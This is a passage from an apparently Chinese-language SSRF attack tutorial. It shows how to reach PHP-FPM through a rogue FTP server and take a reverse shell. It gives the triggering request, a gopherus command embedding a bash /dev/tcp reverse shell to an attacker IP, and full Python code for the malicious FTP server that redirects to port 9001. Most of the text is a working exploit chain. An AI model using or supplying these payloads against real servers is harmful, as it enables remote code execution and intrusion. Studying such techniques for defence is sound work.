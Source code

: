 在攻击机上运行上面的脚本，开启FTP服务（一定记得端口开放,cd到相应的目录）

![image-20210501222030292](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202271725369.png)

然后监听端口（与上面的payload端口一定要符合）

![image-20220227172724351](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202271727475.png)

传参，触发攻击

```
/ssrf.php?viewFile=ftp://aaa@192.168.43.247:23/123
```

就可以反弹shell了。

####  情况2

**有两个控制变量**

```php
<?php
file_put_contents($_GET['file'], $_GET['data']);
```

首先还是使用 gopherus 生成payload：

```
BASH
Copy successfullypython gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

得到的payload只截取 `_` 后面的数据部分。

然后再攻击机上执行以下python脚本搭建一个恶意的 ftp 服务器：

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```
